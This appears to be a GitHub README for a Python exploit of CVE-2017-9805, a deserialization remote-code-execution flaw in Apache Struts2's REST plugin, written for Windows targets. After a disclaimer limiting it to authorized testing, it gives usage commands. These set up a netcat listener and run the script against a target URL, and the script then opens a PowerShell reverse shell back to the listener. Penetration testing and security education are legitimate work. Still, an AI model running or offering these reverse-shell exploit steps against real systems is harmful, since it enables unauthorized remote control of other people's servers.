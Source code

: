 # struts2_rest_xstream - CVE-2017-9805

**Advisory**

All the binaries/scripts/code of struts2_rest_xstream should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
* * *

For information regarding this exploit please see https://nvd.nist.gov/vuln/detail/CVE-2017-9805

In a nutshell, this is a deserialization exploit where you can obtain RCE.

I developed this particular script to avoid using the metasploit version https://www.rapid7.com/db/modules/exploit/multi/http/struts2_rest_xstream for Windows as I had some issues with that version.

There seems to be plenty of Linux versions floating around GitHub but I have not seen any Windows versions. It's probably very rare you would use it, but good to know the option is there.

**Usage**

Set up your listener:

```
nc -nlvp 9001
```

Then execute the script:

```
python struts2_rest_xstream.py -l 10.10.14.12 -p 9001 -u http://10.10.10.120:8080/struts2-rest-showcase/orders/3
```

If it successfully worked then it should connect back to your listener.

The script attempts to execute a PowerShell reverse shell. Easily modified to suit your needs.
